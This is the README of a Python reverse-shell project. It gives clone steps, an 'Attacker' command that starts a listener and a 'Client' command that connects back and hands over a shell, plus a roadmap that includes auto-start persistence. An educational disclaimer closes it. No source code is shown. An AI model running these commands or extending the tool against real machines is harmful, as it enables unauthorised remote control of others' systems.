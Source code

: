 ## Cross-Platform Reverse Shell Written with Python
![banner](banner.png)

## Installing 
```bash
git clone https://github.com/isa-programmer/reversed-shell
cd reversed-shell
```

## Attacker
```bash
python3 server.py 0.0.0.0 4444 # Byte size is optional defualt is 1024
```

## Client
```bash
python3 client.py 0.0.0.0 4444 # Byte size is optional defualt is 1024
```


## Features

- [x] Powershell and Bash support
- [ ] File uploading
- [ ] To ensure automatic opening at the beginning
- [ ] Multiple Session Support and Logging
- [ ] Encryption

> Note: This project was built for educational purposes. Do not test on machines without legal permission
